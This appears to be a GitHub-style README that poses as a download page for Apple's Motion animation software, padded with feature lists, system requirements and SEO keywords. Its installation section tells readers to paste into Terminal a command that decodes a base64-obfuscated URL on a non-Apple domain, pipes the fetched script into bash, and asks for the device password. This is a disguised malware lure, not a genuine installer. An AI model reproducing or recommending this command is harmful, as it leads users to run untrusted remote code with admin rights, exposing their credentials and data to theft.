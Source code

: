 # 🎨 Motion for macOS – Professional Motion Graphics & Animation  

## 📌 About Motion  
Motion is Apple's professional motion graphics and animation software for macOS, designed for creating cinematic titles, dynamic transitions, and stunning visual effects. Built for performance and ease of use, it delivers real-time design feedback and seamless integration with Final Cut Pro, making it a must-have for video editors and animators.  

From complex 3D animations to quick title designs, Motion provides all the tools you need to bring your creative vision to life with speed and precision.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

### 💻 Installation Command:
    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9tb3Rpb24vaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

---

## 🎬 Overview  

A quick look at key parts in action:  

![Motion Screenshot 1](https://avatars.mds.yandex.net/i?id=091532ffe7d909884b603660d0d6b7b8cd8d52d6-2511007-images-thumbs&n=13)  
![Motion Screenshot 2](https://img.ruprogi.ru/images/legacy/sshot/d/b/db3b678eacbffc223fadd75c85473615.jpg)  

---

## 🚀 Key Features  
- 🎥 **Cinematic Titles & Effects** – Create stunning titles, transitions, and effects.  
- 🖌 **Real-Time Feedback** – See changes instantly as you work.  
- 🎞 **Final Cut Pro Integration** – Perfect companion for Apple's editing software.  
- 🌐 **Advanced 3D Tools** – Work with 3D text, particles, and environments.  
- ⚡ **Optimized Performance** – Leverages Apple Silicon for speed.  
- 🎨 **Custom Templates** – Build reusable templates for quick projects.  
- 🎯 **Precision Controls** – Fine-tune every animation parameter.  
- 📦 **Massive Preset Library** – Jump-start projects with ready-made effects.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i5 and above  
- **RAM:** 8 GB minimum (16 GB recommended)  
- **Storage:** 3.5 GB for installation  
- **Others:** Internet connection for updates and templates  

---

## 🔍 SEO Keywords  
motion mac · motion for macos · apple motion graphics · motion animation software · mac animation app · final cut pro motion · motion 3d text · motion visual effects · motion transitions · motion cinematic titles · motion templates · motion mac download
